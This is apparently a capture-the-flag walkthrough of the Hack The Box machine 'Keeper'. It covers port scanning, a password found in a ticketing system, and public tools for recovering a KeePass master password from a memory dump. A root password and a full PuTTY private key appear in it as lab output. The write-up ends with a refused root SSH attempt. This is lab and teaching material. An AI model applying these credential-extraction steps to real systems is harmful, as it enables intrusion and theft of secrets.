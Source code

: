 ```yaml
---
title: "Keeper"
date: 2023-11-29
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "keeper", "writeup", "htb"]
---
```


# Keeper

# Enumeration
# TCP
```sh
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.017s latency).
Scanned at 2024-06-29 09:28:14 AEST for 16s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# UDP
```sh
sudo nmap -sU --top-ports 20 -sV -oA nmap-udp-20ports-scripts 10.10.11.227

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
```
# 80-HTTP
![[/assets/images/keeper1.png]]
-> redirects to `http://tickets.keeper.htb/rt/`

add to `/etc/hosts`
![[/assets/images/keeper2.png]]

```text
http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://seclists.org/fulldisclosure/2011/Aug/175
|       https://www.securityfocus.com/bid/49303
|_      https://www.tenable.com/plugins/nessus/55976
```
-> DoS

# Gobuster
```sh
gobuster dir -u http://10.10.11.227 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o gobusteroutput
```

# tickets.keeper.htb/rt
![[/assets/images/keeper3.png]]

- Request tracker 4.4.4+dfsg-2ubuntu1

![[/assets/images/keeper4.png]]

![[/assets/images/keeper5.png]]

![[/assets/images/keeper6.png]]

SSH as `lnorgaard` with the credentials found in the request tracker user page. 

# Credentials
| Username  | Password     | Hash | Source |
| --------- | ------------ | ---- | ------ |
| lnorgaard | Welcome2023! |      |        |

![[/assets/images/keeper7.png]]

There is an interesting file `RT30000.zip` in the user's home directory. 
The zip file contains the followings:
- `passcodes.kdbx`
- `KeePassDumpFull.dmp`

https://github.com/matro7sh/keepass-dump-masterkey

![[/assets/images/keeper8.png]]

Inorgaard med

https://github.com/vdohney/keepass-password-dumper

Install .NET https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian
```sh
wget https://packages.microsoft.com/config/debian/12/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
rm packages-microsoft-prod.deb

sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-6.0
```
- The exploit runs on `dotnet-sdk-6.0`

Installing the exploit
```sh
git clone https://github.com/vdohney/keepass-password-dumper.git
cd keepass-password-dumper
dotnet run /path/to/KeePassDumpFull.dmp
```

![[/assets/images/keeper9.png]]

https://github.com/z-jxy/keepass_dump

![[/assets/images/keeper11.png]]
```text
dgrd med flde
```
Searching for this gives

```text
rødgrød med fløde
```
# unlock keepass
```sh
show -f 0 
```

![[/assets/images/keeper13.png]]

![[/assets/images/keeper12.png]]

```sh
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

save this output to a file removing whitespaces
![[/assets/images/keeper14.png]]
# Generate the private SSH key for the root user
```sh
puttygen keeper-root -O private-openssh -o id_rsa
```

![[/assets/images/keeper15.png]]

-> cannot ssh as root 

```sh
ssh root@keeper.htb id_rsa 
```
Connection refused


